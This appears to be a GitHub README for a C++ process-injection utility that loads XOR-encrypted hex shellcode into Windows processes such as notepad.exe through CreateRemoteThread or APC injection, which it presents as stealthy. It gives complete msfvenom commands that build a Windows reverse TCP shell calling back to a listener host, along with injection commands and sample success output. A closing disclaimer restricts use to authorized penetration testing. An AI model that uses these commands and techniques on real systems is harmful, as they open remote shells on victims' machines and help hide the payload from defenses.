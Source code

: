 # 🔥 Memory Manipulation Utility 🔥

> A powerful C++ tool to read, XOR‑encrypt/decrypt, and inject hex shellcode into Windows processes via CreateRemoteThread or APC injection. 🛠️💉

---

## 🚀 Features

- 📂 **Hex Payload I/O**: Read and write hex‑encoded shellcode files
- 🔑 **XOR Encryption/Decryption**: Secure your payload at rest with a key, decrypt in-memory just before execution
- 💉 **Injection Methods**:
  - **CreateRemoteThread** injection
  - **APC (Asynchronous Procedure Call)** injection for stealth
- 🔍 **Payload Validation**:
  - PE header check (MZ)
  - Entropy analysis to detect invalid data
- 🎛️ **Flexible CLI**: Intuitive options for encryption, decryption, and injection

---

## 📋 Requirements

- Windows OS (x64)
- Visual Studio or a compatible C++17 compiler
- **msfvenom** (part of Metasploit) for shellcode generation

---

## ⚙️ Installation & Build

1. Clone this repo:
   ```bash
   git clone https://github.com/yourusername/memory-manipulation-utility.git
   cd memory-manipulation-utility
   ```
2. Build with Visual Studio or via CLI:
   ```powershell
   cl /std:c++17 /O2 main.cpp /link /out:memutil.exe
   ```

---

## 🐍 Generating Hex Shellcode with msfvenom

Generate a reverse TCP shell (unencrypted):

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.26.243.224 LPORT=4444 -f hex -o payload.hex
```

Generate and XOR-encrypt in one step:

```bash
msfvenom -p windows/x64/shell_reverse_tcp --encrypt xor --encryption-key hacker LHOST=172.26.243.224 LPORT=4444 -f hex -o payload_encrypted.hex
```

---

## 💻 Usage

```bash
memutil.exe [options]
```

| Option | Description                                                      | Example                                                        |
|:------:|:-----------------------------------------------------------------|:---------------------------------------------------------------|
| `-i`   | Input hex payload file                                           | `-i payload.hex`                                               |
| `-p`   | Target process PID or executable name                            | `-p notepad.exe` or `-p 1234`                                  |
| `-x`   | XOR key for encryption/decryption                                | `-x secret123`                                                 |
| `-e`   | **Encrypt** mode: specify output file (will not inject)          | `-e encrypted_payload.hex`                                     |
| `-a`   | Use **APC** injection instead of CreateRemoteThread              | `-a`                                                           |
| `-h`   | Display help                                                     | `-h`                                                           |


### 🔒 Encrypt Payload (no injection)

```bash
memutil.exe -i payload.hex -e payload_enc.hex -x myKey
```

- Reads `payload.hex` ➡️ XOR‑encrypts with key `myKey` ➡️ writes `payload_enc.hex`

### 💉 Inject Payload

1. **Raw** payload into Notepad:
   ```bash
   memutil.exe -i payload.hex -p notepad.exe
   ```
2. **Encrypted** payload (decrypt & inject):
   ```bash
   memutil.exe -i payload_enc.hex -p 1234 -x myKey
   ```
3. **APC** injection:
   ```bash
   memutil.exe -i payload.hex -p notepad.exe -a
   ```

---

## 🔍 How It Works

1. **ReadHexFile**: Parses `.hex` into a byte vector
2. **XORData**: Applies XOR with key (same function for encrypt/decrypt)
3. **ValidatePayload**: Checks PE signature (`0x4D 0x5A`) and entropy
4. **Injection**:
   - **CreateRemoteThread**: Standard remote thread creation
   - **APC**: Queues an Asynchronous Procedure Call on a target thread for stealth

---

## 📝 Example Output

```
[+] Read 512 bytes from payload.hex
[+] XOR decryption applied with key: myKey
[+] Payload appears to be a valid PE executable
[+] Resolved process notepad.exe to ID: 4321
[+] Successfully injected payload into process 4321
[+] Operation completed successfully
```

---

## ⚠️ Disclaimer

> **For educational and authorized penetration testing only!**
> Misuse of this tool against systems without permission is illegal.

---

## 🙏 Contributions

Feel free to ⭐️ the repo and submit PRs to improve functionality! 🛠️

---

© 2025 Akshat Singh • [Apache License 2.0](LICENSE)

